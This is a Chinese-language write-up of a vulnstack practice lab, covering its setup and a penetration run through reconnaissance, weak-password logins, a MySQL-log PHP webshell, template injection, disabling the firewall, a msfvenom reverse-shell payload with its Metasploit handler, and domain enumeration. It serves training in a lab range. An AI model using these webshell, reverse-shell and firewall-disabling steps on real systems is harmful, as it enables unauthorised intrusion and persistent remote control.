

# 靶场地址

[漏洞详情](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)

虚拟机统一密码

```
hoongrisec@2019
```


# 参考拓扑


# 靶场搭建

## windows 7 x86

NAT+自定义网卡VMnet0

从网络拓扑图可知，win7虚拟机相当于网关服务器

NAT网卡用来与外部主机通信（如攻击机和正在用户）

VMnet0作为内网


同时登录win7主机后要将防火墙关闭

然后打开phpstudy，开启服务


## Windows Server 20008 R2 x64

自定义网卡Vmnet0

VMnet0作为内网


## Win2K3 Metasploitable

自定义网卡Vmnet0

VMnet0作为内网


同时，这里的Vmnet0的子网地址必须是192.168.52.0


## 测试主机连通性

win7：192.168.1.18

​	     192.168.52.143

Win2K3 Metasploitable：192.168.52.141

Windows Server 20008 R2 x64：192.168.52.138


测试完毕后保存快照


# 渗透过程

创建文件夹用来存放nmap扫描结果

```
mkdir nmapscan
```


nmap扫描主机开放端口

```
nmap -sT -p- --min-rate 10000 192.168.1.18 -oA ./nmapscan/ports
```


开放了

- 80
- 135
- 3306


从80端口入手

访问192.168.1.18:80


php探针，暴露了网站的绝对路径

```
C:/phpStudy/WWW
```

同时存在MySQL数据库连接检测


尝试弱口令

```
root：root
```

存在弱口令


但是尝试远程连接数据失败

```
mysql -u root -h 192.168.1.18 -p
```


目录扫描

```
dirsearch -u 192.168.1.18 -x 404,403
```


```
gobuster dir -u 192.168.1.18 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php
```


架设了phpmyadmin服务，以及暴露了phpinfo.php

访问phpinfo.php，得到php版本信息


同样也暴露了网站的绝对路径


访问phpmyadmin


尝试弱口令root：root

成功登录


存在newyxcms，推测存在yxcms


利用phpmyadmin日志文件写入shell

```
general_log 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。可以尝试自定义日志文件，并向日志文件里面写入内容的话，那么就可以成功 getshell
```

查看当前配置

```
SHOW VARIABLES LIKE 'general%';
```


开启日志

```
SET GLOBAL general_log = 'on'
```


修改日志文件路径

利用先前收集的路径信息


修改数据库日志文件路径

```
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/ra1n3.php'
```


验证当前状态

```
SHOW VARIABLES LIKE 'general%'
```


尝试写入一句话木马

```
SELECT "<?php @eval($_POST['ra1n3']);?>"
```


访问ra1n3.php


蚁剑连接


存在yxcms


进入蚁剑虚拟终端

执行whoami

```
whoami
```


adminstrator


访问yxcms


暴露后台路径及admin账号密码

利用admin：123456成功登录


模板注入

修改info.php为一句话木马


蚁剑查看文件路径



确定路径

http://192.168.1.18/yxcms/protected/apps/default/view/default/info.php

蚁剑连接


查看网络信息

```
ipconfig
```


发现内网网段192.168.52.0/24


关闭主机防火墙

```
netsh advfirewall set allprofiles state off
```


msf上线

msfvenom生成远控木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.3 lport=283 -f exe -o ra1n3.exe
```


通过蚁剑上传


本地开启监听

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```


蚁剑中执行exe文件


成功上线


域内信息收集

```
收集域内信息
内网信息收集的主要目的就是查找域控以及域控内的其他主机

net view                 # 查看局域网内其他主机名
net config Workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "domain controllers" /domain  # 查看域控制器主机名（可能有多台）
```


查看当前用户信息

```
getuid
```


Administrator


进程迁移

```
getpid
ps
```


```
migrate 2936
getpid
```


进入shell环境

```
shell
chcp 65001
```


查看DNS服务器，存在域god.org

```
ipconfig /all
```


查看有几个域

```
net view domain
```


只有一个唯一域


查看域控主机名

```
net group "domain controllers" /domain
```


域控主机为OWA


查询域内主机

```
net view
```


\\OWA

\\ROOT-TVI862UBEH

\\STU1


查询域内主机ip

```
arp -a
```


利用ping得出域控主机ip

```
ping owa.god.org
```


